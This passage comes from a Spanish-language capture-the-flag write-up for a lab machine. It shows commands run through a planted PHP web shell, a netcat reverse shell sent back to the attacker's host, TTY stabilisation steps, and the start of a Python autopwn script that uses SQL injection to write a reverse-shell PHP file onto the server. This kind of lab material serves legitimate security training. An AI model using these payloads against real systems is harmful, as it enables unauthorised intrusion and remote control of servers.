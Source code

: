 1. Vamos a la pagina `http://10.10.10.143/s4vishell.php`
1. Probamos commandos

    ```bash
    http://10.10.10.143/s4vishell.php?cmd=id
    http://10.10.10.143/s4vishell.php?cmd=hostname -I
    http://10.10.10.143/s4vishell.php?cmd=ps -faux
    http://10.10.10.143/s4vishell.php?cmd=which nc
    ```

1. lanzamos una reverse SHELL

    ```bash
    http://10.10.10.143/s4vishell.php?cmd=nc -e /bin/bash 10.10.14.7 443
    ```

Ya hemos ganado accesso al systema.

```bash
whoami 

>www-data
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Autopwn in python {-}

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal
import time 
import threading

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo..\n")
    sys.exit(1)

# Ctrl_C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
create_file = '''http://10.10.10.143/room.php?cod=-1 union select 1,2,"<?php system('nc -e /bin/bash 10.10.14.7 443'); ?>",4,5,6,7 into outfile "/var/www/html/reverse.php"-- -'''
exec_file = "http://10.10.10.143/reverse.php"
lport = 443

```